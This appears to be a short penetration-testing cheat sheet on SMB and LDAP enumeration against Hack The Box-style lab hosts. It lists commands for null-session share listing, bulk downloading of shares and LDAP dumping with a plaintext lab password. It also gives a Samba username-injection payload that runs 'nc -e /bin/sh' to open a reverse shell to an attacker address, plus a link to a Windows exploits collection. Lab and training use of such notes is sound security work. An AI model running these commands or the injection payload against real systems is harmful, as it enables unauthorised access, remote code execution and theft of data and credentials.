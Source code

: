 [Windows](Windows)

Checking Null sessions
```bash
smbmap -H 10.10.10.4
smbclient -N -L //10.10.10.4
```


Creating reverse shell
```bash
smbclient //10.10.10.3/tmp -U <USER_NAME>
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.24 443`"
```

recurse on
prompt off
mget *


```bash
smbmap -H <remote_ip> -u <username> -p <password>
```

```bash
smbclient //10.10.10.100/<share_name> -U ""%""
    RECURSE ON
    PROMPT OFF
    mget *
```

```bash
nxc smb 10.10.11.35 -u guest -p '' --shares
```

```bash
ldapdomaindump -u cicada.htb\\michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35 -o ldapdump
```

https://github.com/abatchy17/WindowsExploits